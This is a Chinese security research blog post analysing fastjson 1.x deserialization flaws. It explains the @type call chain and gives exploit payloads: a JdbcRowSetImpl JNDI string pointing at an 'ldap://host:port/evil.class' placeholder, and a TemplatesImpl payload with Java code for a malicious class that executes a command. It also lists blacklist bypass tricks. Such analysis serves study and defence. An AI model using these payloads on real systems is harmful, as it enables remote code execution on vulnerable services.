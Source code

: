 ```yaml
---
title: fastjson1x学习研究
date: 2023-12-07 17:15:00
tags: Java, Unserialization
---
```


# 环境搭建

好久没写java了，也没写这安全方面的研究blog了，趁这段空闲期休息并思考了一下未来方向，觉得自己的竞争力与兴趣依旧在这个方向，所以继续“深造”吧——安全的本质是攻防对抗，而安全研究是攻防的明珠，是最一线武器的来源，所以接下来把这件事做好吧。

## Gradle的使用

一点小的知识补充，首先我们把有漏洞的fastjson版本通过gradle/maven引入进来，这里看到配置文件里引入依赖还写得`compile`，但[中央仓库](https://mvnrepository.com/)里推荐使用`implementation`，所以二者有啥区别呢？

```java
dependencies {
    compile group: 'org.apache.logging.log4j', name: 'log4j-core', version: '2.0.2'
    // compile与implementation的区别：前者会传递依赖，后者不传递。故前者使模块间耦合增加。
    implementation group: 'com.alibaba', name: 'fastjson', version: '1.2.20'
    testCompile group: 'junit', name: 'junit', version: '4.12'
}
```

# 分析步骤

## Fastjson的用法

顾名思义，它的主要用途是将对象转换成JSON字符串，这个过程中涉及到了序列化与反序列化，正常我们用它的方法如下:

```java
import com.alibaba.fastjson.*;

class ABC {
    public String artist = "john mayer";
    public ABC(){
    }
    public void setArtist(String cmd){
        System.out.println("this is setting procedure!");
        this.artist = cmd;
    }
    @Override
    public String toString() {
        return "ABC{artist='" + artist + '\'' +'}';
    }
}

public class Evillogger {
    public static void main(String[] args) throws Exception{
        ABC test = new ABC();
        //1. toJSONString这个静态方法来将对象序列化成json格式的字符串
        System.out.println(JSON.toJSONString(test));
        String input = "{\"artist\":\"Phili Collins\"}";
        //2. parseObject将json格式字符串反转换成对象，第二个参数可以指定参考类
        ABC test2 = JSON.parseObject(input, ABC.class);
        System.out.println(test2);
        //3. @type指定发序列化类的模式，也是主要的利用点
        String extra = "{\"@type\":\"com.sechome.llf.ABC\",\"artist\":\"aligaduo\"}";
        JSONObject tt = JSON.parseObject(extra);
        System.out.println(tt);
    }    
}

//输出结果：
//{"artist":"john mayer"}
//this is setting procedure!
//ABC{artist='Phili Collins'}
//this is setting procedure!
//{"artist":"aligaduo"}

```

注意到第三种用法里我们可以通过控制json串里的`@type`字段来实现指定类的发序列化。

## 反序列化流程

核心调用链路：

```java
JSON.parseObject()->
    DefaultJSONParser.parse()-> //部分逻辑：lexer是个指针，从json串的头部开始解析，分析出key:@type和它的value来，并采取loadClass动作，并开始反序列化。
    	ObjectDeserializer.deserialize()-> 
    	... ->
            JavaBeanDeserializer.deserialize()-> // 遍历该对象的属性
                    DefaultFieldDeserializer.parseField()->
                        FieldDeserializer.setValue()->
							method=fieldInfo.method;			// 这里找到了属性的set方法，并调用它。
    						method.invoke()
```

在最后一步，调用到了我们欲反序列化类的属性set方法。实际上，fastjson在反序列化的过程中，会在构造完对象的类之后，分别调用该对象属性的set、get方法，类似于原生反序列化时势必调用readObject方法，所以只要目标环境里的某个类的属性读写方法里有可利用的点，那这个类就是很合适的利用类。

## 利用方式一：JDK原生类JdbcRowSetImpl

有这样一个类`com.sun.rowset.JdbcRowSetImpl`，看名称就知道和数据库连接功能相关，不过这不重要。它的`autoCommit`字段的set方法会发起网络连接。

![image-20231210161236440](https://llf-oss.oss-cn-beijing.aliyuncs.com/bucket/pictures/20231210161243.png)

![image-20231210162249608](https://llf-oss.oss-cn-beijing.aliyuncs.com/bucket/pictures/20231210162252.png)

通过简单分析得知，让这个类的`dataSourceName`字段不为空，并让它触发`setAutoCommit`方法，我们就能在目标环境里发起网络请求。因此我们的payload可以是这样：

```java
"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://host:port/evil.class\",\"AutoCommit\":\"false\"}"
```

我们将在可控的机器人放置恶意class文件等目标去读取并加载， 比如ysoserial系列的payload类。那么，如果对方的环境里做了网络请求限制，又该如何利用呢？我们往下看。

## 利用方式二：JDK原生包xalan的TemplatesImple类

实际测试时发现jdk1.8.0_271里已经对`com.sun.org.apache.bcel.internal.util.ClassLoader`做了移除，但还有一个类可利用`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，它也在ysoserial工具里构建payload时出现过。这里出问题的属性方法是：

![image-20231210175326628](https://llf-oss.oss-cn-beijing.aliyuncs.com/bucket/pictures/20231210175729.png)

![image-20231210175758641](https://llf-oss.oss-cn-beijing.aliyuncs.com/bucket/pictures/20231210175801.png)

![image-20231210180117022](https://llf-oss.oss-cn-beijing.aliyuncs.com/bucket/pictures/20231210180118.png)

所以我们构造`Templatesimpl`类的`_outputproperties`属性，并且给它的`_bytecodes`中填入base64编码过的恶意类字节码，它会在反序列化的过程中被解析，并通过构造函数实例化，此时恶意代码就会执行。payload的最终形式如下：

```java
{	// 字段顺序也会影响到反序列化逻辑，错误的话会导致抛异常。
    "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes":["xxxxxxxxxxxx"],	// 恶意字节码，必须继承AbstractTranslet，恶意代码写入构造函数，最后字节码要做base64编码。
    "_name":"anything",				// 保证反序列化流程正常
    "_tfactory":{},					// 同上，保证逻辑不抛异常
    "_outputproperties":{}			// 为了利用它的get方法实例化bytecodes
}

// 服务端反序列化代码如下：
	JSONObject tt = JSON.parseObject(evil, Object.class, new ParserConfig(), Feature.SupportNonPublicField);
```



但值得一提的是，以上属性都是private的，这就要求parseObject方法里指定SupportNonPubilcField参数（1.2.22引入）才行，这在很大程度上限制了payload的通用性。

```JAVA
// payload生成代码
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
public class Evil extends AbstractTranslet{
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc.exe");
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }  
}



```



# 修补与绕过

## 1.2.25修复



早期的绕过主要因checkAutoType的逻辑引入：

1. 利用缓存类和逻辑缺陷绕过；
2. 利用`LXXXX;`绕过黑名单检查；
3. 利用双写`LLXXXX;;`绕过黑名单检查；
4. 利用`[{`绕过黑名单检查。

